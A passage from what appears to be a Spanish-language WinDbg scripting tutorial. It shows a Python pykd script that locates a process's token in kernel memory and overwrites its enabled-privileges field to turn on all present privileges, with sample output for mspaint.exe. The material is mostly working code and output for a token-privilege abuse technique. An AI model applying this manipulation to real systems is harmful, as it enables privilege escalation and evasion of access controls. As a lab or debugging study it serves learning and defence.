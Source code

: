 ```!process 0 0 cmd.exe```
            result = pykd.dbgCommand(windbg_command)
            #find process address
            process_address = find_process_address(result)
            if process_address:
                #get token and cast as EX_FAST_REF
                windbg_command = f"dt !_EX_FAST_REF {process_address}+{TOKEN_OFFSET:#x}"
                result = pykd.dbgCommand(windbg_command)

                #Find token adresss
                token_addr = find_token_address(result)

                #Get privileges from token structure
                windbg_command = f"dt !_SEP_TOKEN_PRIVILEGES {token_addr}+{PRIVILEGES_OFFSET:#x}"
                # print (windbg_command)
                result = pykd.dbgCommand(windbg_command)
                print(f"Process '{process}' initial privileges: \n {result}")

                #set Enabled privileges with the value from present
                present_priv = get_present_privileges(result)

                #Set privileges from token structure
                windbg_command = f"eq {token_addr}+{PRIVILEGES_OFFSET:#x}+{ENABLED_OFFSET:#x} {present_priv}"
                # print (windbg_command)
                result = pykd.dbgCommand(windbg_command)

                #Get privileges from token structure for check the result
                windbg_command = f"dt !_SEP_TOKEN_PRIVILEGES {token_addr}+{PRIVILEGES_OFFSET:#x}"
                # print (windbg_command)
                result = pykd.dbgCommand(windbg_command)

                print(f"Process '{process}' final privileges: \n {result}")

        except Exception as e:
            print(f"Error executing WinDbg command: {e}")

if __name__ == "__main__":
    main()
```
Y la salida obtenida es esta

``` 
lkd> !py C:\Users\Jose\Desktop\ABR_Debugging_Scripting\WinDbg_Python\TokenAbuse 
Token Abuse example
Please enter the name of the process you want to increase the privileges: mspaint.exe
Process 'mspaint.exe' is running.
Get process info for: mspaint.exe
Memory address for process is: ffff8c8885c2c340
find token in address: 0xffffc288f73cd060
Process 'mspaint.exe' initial privileges: 
 nt!_SEP_TOKEN_PRIVILEGES
   +0x000 Present          : 0x00000006`02880000
   +0x008 Enabled          : 0x800000
   +0x010 EnabledByDefault : 0x40800000

Process 'mspaint.exe' final privileges: 
 nt!_SEP_TOKEN_PRIVILEGES
   +0x000 Present          : 0x00000006`02880000
   +0x008 Enabled          : 0x00000006`02880000
   +0x010 EnabledByDefault : 0x40800000
``` 
o esto en caso de que el proceso no se encuentre en ejecución
